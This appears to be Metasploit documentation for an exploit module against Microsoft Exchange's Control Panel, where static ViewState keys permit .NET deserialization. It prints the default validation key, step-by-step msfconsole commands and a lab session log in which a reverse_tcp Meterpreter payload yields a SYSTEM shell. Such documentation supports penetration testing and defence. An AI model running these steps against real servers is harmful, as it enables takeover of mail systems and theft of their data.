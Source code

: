 ## Vulnerable Application

This module exploits a .NET serialization vulnerability in the Exchange Control
Panel (ECP) web page. The vulnerability is due to Microsoft Exchange Server not
randomizing the keys on a per-installation basis resulting in them using the
same validationKey and decryptionKey values. With knowledge of these values, an
attacker can craft a special viewstate to cause an OS command to be executed by
NT_AUTHORITY\SYSTEM using .NET deserialization.

The default ViewState validation key is: `cb2721abdaf8e9dc516d621d8b8bf13a2c9e8689a25303bf`.

This module requires the user to authenticate to Exchange. At a minimum the user
must be a member of the `Domain Users` group and have a mailbox configured on
the Exchange server.

The crafted ViewState must be submitted to the server in a GET request (POST
requests will not work) which introduces a size restriction on the contents. Due
to this, OS commands are limited to a length of approximately 450 which accounts
for the overhead of the serialization data. The OS command must also be XML
encoded which increases the size as well. The .NET deserialization used is the
"TextFormattingRunProperties" chain from the [ysoserial.net][1] project.

## Verification Steps

  1. Install the application
  1. Start msfconsole
  1. Do: `use exploit/windows/http/exchange_ecp_viewstate`
  1. Set the `RHOSTS`, `USERNAME` and `PASSWORD` options
  4. Do: `run`
  5. You should get a shell.

## Options

### DOMAIN

The authentication realm for the corresponding `USERNAME` argument

### USERNAME

Username to log in with

### Password

Password to log in with

## Scenarios

### Exchange 2016 on Server 2012 x64

For example:

```
msf > use exploit/windows/http/exchange_ecp_viewstate
msf exploit(windows/http/exchange_ecp_viewstate) > set RHOSTS 192.168.159.129
RHOSTS => 192.168.159.129
msf exploit(windows/http/exchange_ecp_viewstate) > set USERNAME msflab.local\\jdoe
USERNAME => msflab.local\jdoe
msf exploit(windows/http/exchange_ecp_viewstate) > set PASSWORD Password1
PASSWORD => Password1
msf exploit(windows/http/exchange_ecp_viewstate) > set TARGET 1
TARGET => 1
msf exploit(windows/http/exchange_ecp_viewstate) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf exploit(windows/http/exchange_ecp_viewstate) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf exploit(windows/http/exchange_ecp_viewstate) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Command Stager progress -   3.61% done (449/12424 bytes)
[*] Command Stager progress -   7.23% done (898/12424 bytes)
[*] Command Stager progress -  10.84% done (1347/12424 bytes)
[*] Command Stager progress -  14.46% done (1796/12424 bytes)
[*] Command Stager progress -  18.07% done (2245/12424 bytes)
[*] Command Stager progress -  21.68% done (2694/12424 bytes)
[*] Command Stager progress -  25.30% done (3143/12424 bytes)
[*] Command Stager progress -  28.91% done (3592/12424 bytes)
[*] Command Stager progress -  32.53% done (4041/12424 bytes)
[*] Command Stager progress -  36.14% done (4490/12424 bytes)
[*] Command Stager progress -  39.75% done (4939/12424 bytes)
[*] Command Stager progress -  43.37% done (5388/12424 bytes)
[*] Command Stager progress -  46.98% done (5837/12424 bytes)
[*] Command Stager progress -  50.60% done (6286/12424 bytes)
[*] Command Stager progress -  54.21% done (6735/12424 bytes)
[*] Command Stager progress -  57.82% done (7184/12424 bytes)
[*] Command Stager progress -  61.44% done (7633/12424 bytes)
[*] Command Stager progress -  65.05% done (8082/12424 bytes)
[*] Command Stager progress -  68.67% done (8531/12424 bytes)
[*] Command Stager progress -  72.28% done (8980/12424 bytes)
[*] Command Stager progress -  75.89% done (9429/12424 bytes)
[*] Command Stager progress -  79.51% done (9878/12424 bytes)
[*] Command Stager progress -  82.74% done (10279/12424 bytes)
[*] Command Stager progress -  86.15% done (10703/12424 bytes)
[*] Command Stager progress -  89.43% done (11111/12424 bytes)
[*] Command Stager progress -  92.91% done (11543/12424 bytes)
[*] Command Stager progress -  96.28% done (11962/12424 bytes)
[*] Sending stage (206403 bytes) to 192.168.159.129
[*] Command Stager progress -  99.84% done (12404/12424 bytes)
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.129:17626) at 2020-03-02 10:40:52 -0500
[*] Command Stager progress - 100.00% done (12424/12424 bytes)

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : EXCHANGE
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : MSFLAB
Logged On Users : 9
Meterpreter     : x64/windows
meterpreter > 
```

[1]: https://github.com/pwntester/ysoserial.net
